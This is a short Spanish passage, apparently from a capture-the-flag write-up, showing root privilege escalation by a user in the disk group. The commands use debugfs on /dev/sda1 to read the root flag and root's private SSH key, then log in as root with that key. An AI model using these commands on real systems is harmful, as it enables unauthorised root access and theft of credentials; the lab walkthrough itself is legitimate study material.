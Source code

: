 Siendo del grupo disk, nos permite abrir la utilidad 
```bash
 debugfs 
```
 que nos permite manejar utilidades del disco como root.

```bash
debugfs /dev/sda1
pwd
ls
cd /root
pwd
cat root.txt
```

Aqui podemos ver la flag, pero nosotros queremos ser root. Continuamos

```bash
cd .ssh
cat id_rsa
```

la copiamos y creamos un fichero id_rsa en /tmp

```bash
exit
cd /tmp
nano id_rsa

chmod 600 id_rsa
ssh root@localhost -i id_rsa
whoami
#Output 

root
```
